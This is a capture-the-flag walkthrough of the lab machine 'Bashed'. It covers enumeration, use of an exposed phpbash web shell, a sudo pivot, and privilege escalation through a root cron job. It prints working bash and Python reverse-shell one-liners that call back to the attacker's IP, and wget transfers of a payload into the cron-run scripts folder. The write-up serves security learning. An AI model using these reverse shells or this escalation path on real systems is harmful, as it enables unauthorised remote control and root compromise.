








## Overview

Bashed is an Ubuntu box running Apache hosting a custom website/blog. The developer talks about creating something called phpbash. Using gobuster I discovered a number of folders including a site that hosted a web-based shell running as www-data. Using the shell I determined that a cron job was running anything in the scripts folder as root which was exploited to get a root shell.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* Apache 2.4.18

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.68 -oN /mnt/data/boxes/bashed/_full_tcp_nmap.txt
```

* 80/tcp - http

**URL/File Discovery**

```
gobuster dir -w http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 25
```



## Steps (User)

Browsing to http://10.10.10.68 showed a blog entry talking about phpbash which appeared to be a web shell that was created for pentesting. There were no other pages or interesting information in the source code.

Reviewing the gobuster output showed a few interesting results but nothing useful besides /dev. Browsing to /dev showed a directory listing with one of the files being phpbash.php.



Browsing to http://10.10.10.68/dev/phpbash.php brought me to a page hosting a web-based user shell.



One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that this account can run any command as user "scriptmanager".

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy. 



Attempting to switch to scriptmanager doesn't work on the web shell so to get around this I used netcat to create a reverse shell. The box was running the openbsd version of netcat so there was no -e option, __bash -i >& /dev/tcp/10.10.14.13/4200 0>&1__ and a few other variations of this didn't work. 

I ran 'which python' to confirm that python was installed on the box and grabbed a copy of the python reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

I started a netcat listener (nc -l 4200), updated the command with my box's IP/port, and ran it in the web shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4200));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



Now that I had a proper shell I was able to run the command below which executed a bash shell under the context of the scriptmanager user.

```
sudo -u scriptmanager /bin/bash
```



## Steps (root/system)

As I was looking around on the filesystem I noticed an unusual folder /scripts. In this folder there was a file owned by root that, judging by the timestamp (ls -la), was being updated frequently.  I ran pspy to see if there were any automated tasks running. 

> [pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions.

I copied pspy32 to my working directory and fired up a python http server so I could transfer the file to the target box. 

```
local: cp ~/tools/pspy/pspy32 .
local: python3 -m http.server 80
```

I then used wget to copy the file to the target.

```
target: wget http://10.10.14.32/pspy32
```

pspy shows that the command that is being run 

```
/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```



I updated the IP/port in the python code used earlier and started a netcat listener on the matching port (nc -lvnp 4201).

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4201)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Using the python http server again, I copied the code to a new file and copied it over to the target box.

```
wget http://10.10.14.32/rshell.py /scripts/rshell.py
chmod +x /scripts/rshell.py
```

Once the script was executed I received a callback on my netcat listener and received a shell as root.


